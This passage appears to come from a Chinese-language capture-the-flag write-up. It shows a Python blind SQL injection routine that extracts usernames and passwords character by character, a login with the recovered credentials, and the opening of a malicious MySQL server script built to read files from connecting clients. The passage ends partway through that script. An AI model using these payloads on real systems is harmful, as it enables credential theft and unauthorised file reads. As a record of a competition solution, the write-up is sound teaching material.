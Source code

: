 第一列是用户名。

参看资料：[http://p0desta.com/2018/03/29/SQL%E6%B3%A8%E5%85%A5%E5%A4%87%E5%BF%98%E5%BD%95/#1-10-1-%E5%88%AB%E5%90%8D](http://p0desta.com/2018/03/29/SQL%E6%B3%A8%E5%85%A5%E5%A4%87%E5%BF%98%E5%BD%95/#1-10-1-%E5%88%AB%E5%90%8D)

10、再来第二列试试。
```
    # 获取数据库
    def get_all_databases(url):
        db_nums_payload = "select length(group_concat(a.2)) from (select 1, 2 union select * from user)a"
        db_numbers = half(url, db_nums_payload)
        print("长度为：%d" % db_numbers)

        db_payload = "select group_concat(a.2) from (select 1, 2 union select * from user)a"
        db_name = ""
        for y in range(1, db_numbers + 1):
            db_name_payload = "ascii(substr((" + db_payload + "),%d,1))" % (
                y)
            db_name += chr(half(url, db_name_payload))

        print("值：" + db_name)
```
第二列就是密码了。

![](https://www.zhaoj.in/wp-content/uploads/2019/04/1555775939b3fb89ba7ca458662560e7d74d261124-1024x413.png)

似乎还提示我们 flag 在 /fll1llag_h3r3。

11、先用这组用户名密码登录看看，看到可以登录成功。

[![](https://www.zhaoj.in/wp-content/uploads/2019/04/1555776020ee459fa67678ae8c83bfe8a7b9f93c6d-1024x346.png)](https://www.zhaoj.in/wp-content/uploads/2019/04/1555776020ee459fa67678ae8c83bfe8a7b9f93c6d.png)

12、很熟悉的页面，祭出我们的祖传恶意 MySQL 服务器吧。改好要读取的文件，在自己的服务器上运行。
```
    #!/usr/bin/env python
    #coding: utf8


    import socket
    import asyncore
    import asynchat
    import struct
    import random
    import logging
    import logging.handlers



    PORT = 3306

    log = logging.getLogger(__name__)

    log.setLevel(logging.DEBUG)
    # tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
    tmp_format = logging.StreamHandler()
    tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
    log.addHandler(
        tmp_format
    )

    filelist = (
    #    r'c:\boot.ini',
    #    r'c:\windows\win.ini',
```